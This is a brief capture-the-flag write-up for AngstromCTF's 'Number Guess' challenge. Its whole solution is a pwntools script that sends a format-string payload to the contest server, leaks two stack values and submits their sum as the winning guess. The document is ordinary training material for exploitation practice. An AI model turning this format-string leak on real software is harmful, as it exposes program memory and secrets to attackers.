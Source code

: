 # Number Guess

**Category:** Binary Exploitation
**Points:** 70
**Description:**


> Ian loves playing number guessing games, so he went ahead and wrote one himself (source). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Write-up

```python
from pwn import *

# p = process('./guessPublic64')
p = remote('shell.angstromctf.com', 1235)

p.recvuntil("max):")
p.sendline("0x%3$x-0x%9$x")

p.recvuntil("sum?")
data = p.recvuntil("guess:")
numbers = data.split("'s guess")[0].strip().split('-')

p.sendline(str(int(numbers[0],16)+int(numbers[1],16)))

print p.recvall()
```


